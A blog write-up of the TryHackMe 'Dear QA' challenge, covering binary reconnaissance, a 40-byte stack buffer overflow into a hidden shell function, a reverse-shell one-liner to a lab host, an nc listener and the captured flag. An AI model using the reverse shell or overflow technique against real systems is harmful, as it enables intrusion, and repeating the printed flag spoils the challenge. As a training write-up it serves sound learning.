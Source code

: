 ```yaml
---
title: "Dear QA"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{ post-img src="dqa.png" alt="dqa" style="width: 200px;" > }}

This is a binary exploitation challenge with a buffer overflow vulnerabily
Reminds me of '0xDiablos' challenge I did on hackthebox
Local exploitation first, then remote/development exploit

## Local exploitation

We get information first

```bash
└──╼ $file DearQA.DearQA
DearQA.DearQA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dae71dcf7b3fe612fe9f7a4d0fa068ff3fc93bd, not stripped
```

```bash
└──╼ $checksec DearQA.DearQA
[*] '/home/yourUser/Desktop/DearQA.DearQA'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Then the basics

```bash
└──╼ $strings  DearQA.DearQA
/lib64/ld-linux-x86-64.so.2
libc.so.6
fflush
__isoc99_scanf
puts
printf
stdout
execve
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.2.5
fffff.
[]A\A]A^A_
Congratulations!
You have entered in the secret function!
/bin/bash
Welcome dearQA
I am sysadmin, i am new in developing
What's your name:
Hello: %s
;*3$"

...
```

A secret function? interesting!
At this point I could fire up Ghidra or IDA, but I find those too "powerful"
I am trying to learn as much as possible so I stick to simpler tools like gdb and r2
So for the moment I use r2 and analyse the binary (I already gave execution permission and tested it)

```bash
└──╼ $r2 -d ./DearQA.DearQA
Process with PID 19964 started...
= attach 19964 19964
bin.baddr 0x00400000
Using 0x400000
asm.bits 64

[0x7f6147a2f090]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.

[0x7f6147a2f090]> afl
0x00400590    1 41           entry0
0x00400540    1 6            sym.imp.__libc_start_main
0x004005c0    4 50   -> 41   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 28           sym.__do_global_dtors_aux
0x00400660    4 38   -> 35   entry.init0
0x004007a0    1 2            sym.__libc_csu_fini
0x00400686    1 61           sym.vuln
0x00400520    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.fflush
0x00400550    1 6            sym.imp.execve
0x004007a4    1 9            sym._fini
0x00400730    4 101          sym.__libc_csu_init
0x004006c3    1 109          main
0x00400530    1 6            sym.imp.printf
0x00400580    1 6            sym.imp.__isoc99_scanf
0x004004f0    3 26           sym._init
0x00400560    1 6            loc.imp.__gmon_start__
```
`main` is usually a good start, but it does nothing special

The strings were taling about a "secret function"

Among the symbols we got a `sym.vuln` function that look interesting

```bash
[0x7f6147a2f090]> pdf @sym.vuln
┌ 61: sym.vuln ();
│           0x00400686      55             push rbp
│           0x00400687      4889e5         mov rbp, rsp
│           0x0040068a      bfb8074000     mov edi, str.Congratulations_ ; 0x4007b8 ; "Congratulations!"
│           0x0040068f      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400694      bfd0074000     mov edi, str.You_have_entered_in_the_secret_function_ ; 0x4007d0 ; "You have entered in the secret function!"
│           0x00400699      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040069e      488b056b0520.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x600c10:8]=0
│           0x004006a5      4889c7         mov rdi, rax
│           0x004006a8      e8c3feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x004006ad      ba00000000     mov edx, 0
│           0x004006b2      be00000000     mov esi, 0
│           0x004006b7      bff9074000     mov edi, str._bin_bash      ; 0x4007f9 ; "/bin/bash"
│           0x004006bc      e88ffeffff     call sym.imp.execve
│           0x004006c1      5d             pop rbp
└           0x004006c2      c3             ret
```
Bingo! that's it! But It's never called in main ( or anywhere ? )
How could we reach it? the answer is: `Buffer Overflow`
When I executed the binary and saw it was taking input I immediately suspected it
You know already how to test for BOF, mad-long inputs!
You can generate them with any tool or do it manually (barbaric)
But it's important to find the right offset (how many characters make a BOF ?)

I found my offset at `40` characters

```bash
└──╼ $./DearQA.DearQA
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation

```

So now We got what we need! Our objective is to jump to the `vuln` function address
from r2 we got it! it's `0x00400686`
so we just add it to our payload (convert it to little endian first)
I wrote a python script for that, using `pwntools` (I like pwntools)


## Remote exploitation

I won't say much here, as we did the hardest part already
We just have to connect to the remote server and send our payload
`pwntools` can do that too. I adapt my script and use it with `python3`

```bash
└──╼ $python3 bufferoverflow.py
[*] '/home/nair0lf32/Desktop/Stuff/THM/DearQA/DearQA.DearQA'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to 10.10.81.146 on port 5700: Done
[*] Initialisation of BOF attack
/home/nair0lf32/Desktop/Stuff/THM/DearQA/bufferoverflow.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  connection.recvuntil("What's your name: ")
[*] Payload sent
[*] Switching to interactive mode


ctf@dearqa:/home/ctf$ $

```
And we did it! the secret function gave us a shell (like shown in local)
Now we have access to the server but we cant see our commands output
We can get a proper shell then

```bash
ctf@dearqa:/home/ctf$ $ bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/4444 <&1'

$
```

Then our listenner got us in

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 48729
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ ls
ls
DearQA
dearqa.c
flag.txt
```

```bash
ctf@dearqa:/home/ctf$ cat flag.txt
cat flag.txt
THM{Fl4G_Fr0m_Q4_t0_D3v}
```
I am starting to really like those pwn challenges!
Doing further readings I learnt that actually when you examine the memory addresses (gdb or objdump)
after the segfault, you get the offset at 40, but the buffer size is actually 32 bytes
The next 8 bytes are used to reach the RSP and access the vuln function
It doesnt change much as we can fill any characters in the RSP, but it's good to know

Keep learning folks!
